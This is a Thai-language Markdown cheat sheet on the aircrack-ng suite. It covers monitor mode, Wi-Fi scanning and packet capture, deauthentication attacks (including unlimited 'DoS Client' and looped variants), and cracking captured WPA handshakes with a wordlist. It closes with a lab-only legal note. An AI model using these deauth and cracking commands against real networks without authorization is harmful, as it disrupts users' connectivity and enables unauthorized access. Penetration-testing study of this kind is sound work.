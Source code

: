 # 🛠 Aircrack-ng Suite – Wireless Attacks Toolkit

## 🧭 สารบัญ
- [📦 ภาพรวม](#📦-ภาพรวม)
- [🛰 airmon-ng – เปิด/ปิด Monitor Mode](#-airmon-ng--เปิดปิด-monitor-mode)
- [🔍 airodump-ng – สแกน Wi-Fi และดักจับ Packet](#-airodump-ng--สแกน-wi-fi-และดักจับ-packet)
- [💥 aireplay-ng – ยิง Packet และโจมตี](#-aireplay-ng--ยิง-packet-และโจมตี)
  - [🔫 รูปแบบการยิง deauth ที่นิยม](#-รูปแบบการยิง-deauth-ที่นิยม)
- [🔐 aircrack-ng – ถอดรหัส WPA Handshake](#-aircrack-ng--ถอดรหัส-wpa-handshake)

---

## 📦 ภาพรวม

ชุดเครื่องมือ `aircrack-ng` คือหนึ่งในเครื่องมือหลักที่ใช้ใน **Wireless Penetration Testing** โดยเน้นการ:
- ตรวจสอบสภาพเครือข่ายไร้สาย
- สแกน Access Point และ Client
- ดักจับ Handshake
- ยิง Packet (เช่น deauth)
- Brute-force หารหัสผ่านจาก Handshake

---

## 🛰 airmon-ng – เปิด/ปิด Monitor Mode

ใช้เพื่อเปลี่ยน Wi-Fi interface ให้อยู่ใน **Monitor Mode** และจัดการ process ที่รบกวนการดักจับ packet

### 🔧 คำสั่งหลัก
```bash
sudo airmon-ng start wlan1        # เปิด Monitor Mode → wlan1mon
sudo airmon-ng stop wlan1mon      # ปิด Monitor Mode กลับสู่ Managed Mode
sudo airmon-ng check              # ตรวจสอบ process ที่รบกวน เช่น NetworkManager
sudo airmon-ng check kill         # ฆ่า process ที่รบกวนทั้งหมด
```

### 📌 หมายเหตุ
- ใช้งานสะดวกกว่าการใช้ `ip` และ `iw`
- ชื่อ interface อาจเปลี่ยน เช่น `wlan1` → `wlan1mon`

---

## 🔍 airodump-ng – สแกน Wi-Fi และดักจับ Packet

ใช้เพื่อ:
- แสดงข้อมูล Access Point และ Client
- บันทึก packet เป็นไฟล์ `.cap`
- ใช้ร่วมกับ `aircrack-ng` หรือ `hashcat` เพื่อถอดรหัส

### 🔧 คำสั่งพื้นฐาน
```bash
sudo airodump-ng wlan1mon
```

### 🔧 คำสั่งขั้นสูง (เฉพาะเจาะจง BSSID และ Channel)
```bash
sudo airodump-ng --bssid <BSSID> --channel <CH> -w capture wlan1mon
```

### 🧾 Options สำคัญ
| Option | ความหมาย |
|--------|-----------|
| `--bssid <BSSID>` | ระบุ Access Point เป้าหมาย |
| `--channel <CH>` | ระบุ channel ให้ตรงกับ AP |
| `-w <prefix>` | บันทึกข้อมูลเป็นไฟล์ capture (เช่น `.cap`) |
| `--write-interval 1` | บันทึกทุก ๆ วินาที (default 5s) |
| `--ignore-negative-one` | ปิด warning ช่องสัญญาณไม่ตรง (บาง adapter ต้องใช้) |

---

## 💥 aireplay-ng – ยิง Packet และโจมตี

ใช้เพื่อ:
- ยิง deauth packet ไล่ client ออก
- ทดลอง packet injection
- Replay authentication / ARP request ฯลฯ

### 🔧 คำสั่งยิง deauth
```bash
# ไล่ client รายตัว
sudo aireplay-ng --deauth 10 -a <BSSID> -c <Client MAC> wlan1mon

# ไล่ client ทั้งหมดใน AP
sudo aireplay-ng --deauth 10 -a <BSSID> wlan1mon
```

### 🧾 Options สำคัญ
| Option | ความหมาย |
|--------|-----------|
| `--deauth <n>` | จำนวน packet ที่จะยิง (0 = ไม่จำกัด) |
| `-a <BSSID>` | ระบุ Access Point เป้าหมาย |
| `-c <Client MAC>` | ระบุ MAC ของ client (ถ้าเจาะจง) |
| `--ignore-negative-one` | ใช้เมื่อมี error ช่องสัญญาณไม่ตรง |

### 📌 คำสั่งทดสอบว่า Adapter รองรับ injection หรือไม่
```bash
sudo aireplay-ng --test wlan1mon
```

### 🔫 รูปแบบการยิง deauth ที่นิยม

| รูปแบบ | คำอธิบาย | คำสั่ง |
|--------|----------|--------|
| 🎯 รายตัว (Targeted) | ยิงเฉพาะ client ที่ระบุ | `aireplay-ng --deauth 10 -a <BSSID> -c <Client MAC> wlan1mon` |
| 📡 ทั้งวง (Broadcast) | ไล่ client ทุกตัวใน AP | `aireplay-ng --deauth 10 -a <BSSID> wlan1mon` |
| 🔁 ไม่จำกัดรอบ | ยิงเรื่อย ๆ จนกว่าจะหยุด | `aireplay-ng --deauth 0 -a <BSSID> wlan1mon` |
| ☠️ DoS Client | ยิงไม่หยุดเฉพาะรายตัว | `aireplay-ng --deauth 0 -a <BSSID> -c <Client MAC> wlan1mon` |
| 🚀 Aggressive Loop | ยิงหลายรอบติด ๆ กัน | `for i in {1..5}; do aireplay-ng --deauth 25 -a <BSSID> wlan1mon; done` |

---

## 🔐 aircrack-ng – ถอดรหัส WPA Handshake

ใช้ถอดรหัสไฟล์ `.cap` ที่ดักจับ handshake ได้ โดยใช้ wordlist

### 🔧 คำสั่งพื้นฐาน
```bash
aircrack-ng -w wordlist.txt -b <BSSID> capture.cap
```

### 🧾 Options สำคัญ
| Option | ความหมาย |
|--------|-----------|
| `-w <wordlist>` | ไฟล์รหัสผ่านสำหรับ brute-force |
| `-b <BSSID>` | ระบุ Access Point เป้าหมาย |
| `-e <ESSID>` | ระบุชื่อ Wi-Fi (ถ้าเจอหลายอัน) |
| `-l <output>` | บันทึกรหัสผ่านที่เจอไปยังไฟล์ |

### ✅ ตรวจสอบว่า handshake มีอยู่หรือไม่
```bash
aircrack-ng capture.cap
```
ถ้ามี handshake จะมีดาว (⭐) ขึ้นตรง `WPA handshake` กับ BSSID

---

📌 **หมายเหตุ:** การใช้งานเครื่องมือเหล่านี้ควรอยู่ภายใต้กฎหมาย และใช้เพื่อการศึกษาในแล็บเท่านั้น
